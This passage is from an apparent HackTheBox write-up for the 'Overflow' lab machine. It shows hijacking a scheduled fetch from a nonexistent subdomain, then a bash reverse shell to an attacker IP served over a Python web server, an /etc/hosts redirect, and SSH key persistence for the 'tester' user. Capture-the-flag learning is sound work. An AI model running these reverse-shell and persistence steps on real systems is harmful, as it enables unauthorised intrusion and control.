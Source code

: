 The problem is, the `taskmanage` subdomain does not exist. We can hijack the request doing the following:  
- Create `task.sh` on ur attacking machine that when ran it creates a reverse connection to us
- Spin a python web server on port 80  
- Set our attacking IP to resolve `taskmanage.overflow.htb` on overflow's host file
- Start netcat listener and wait a minute for tester to connect 😀

First I created the `task.sh` in my machine with a bash reverse shell and started a Python web server on port 80:
```bash
$ cat task.sh                                                                               
bash -i >& /dev/tcp/10.10.14.3/4444 0>&1

$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Also in another terminal started a netcat listener on port 4444.

In Overflow machine we can add the host entry `taskmanage.overflow.htb` pointing to our machine:
```
echo "10.10.14.3 taskmanage.overflow.htb" >> /etc/hosts
```

After a minute or two we get a hit in our Python web server and a connection back to our netcat listener!

## Shell as tester
```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.119] 38718
bash: cannot set terminal process group (6059): Inappropriate ioctl for device
bash: no job control in this shell
tester@overflow:~$
```

Lets upgrade the tty generating SSH keys:
```bash
tester@overflow:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/tester/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/tester/.ssh/id_rsa.
Your public key has been saved in /home/tester/.ssh/id_rsa.pub.

tester@overflow:~/.ssh$ cp id_rsa.pub authorized_keys
tester@overflow:~/.ssh$ chmod 600 ./authorized_keys
tester@overflow:~/.ssh$ cat id_rsa
```

Create a file with the `id_rsa` contents in attacker machine and use it to SSH in:
```bash
$ nano tester.idrsa
$ chmod 600 tester.idrsa
$ ssh -i tester.idrsa tester@overflow.htb
```
